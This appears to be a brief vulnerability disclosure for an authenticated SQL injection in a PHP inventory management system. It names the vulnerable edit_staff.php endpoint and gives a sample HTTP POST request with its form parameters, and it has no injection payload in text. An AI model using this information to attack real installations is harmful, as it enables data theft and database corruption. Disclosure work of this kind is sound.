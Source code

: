 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/action/edit_staff.php file, and in the code snippet you can see that there is an action to update the information.

![image-20250326143548086](images/image-20250326143548086.png)





Vulnerability verification：

```
POST /ample/app/action/edit_staff.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie: PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

id=1&name=1&designation=1&contact=1&email=1&address=1
```

 ![image-20250326143531788](images/image-20250326143531788.png)




































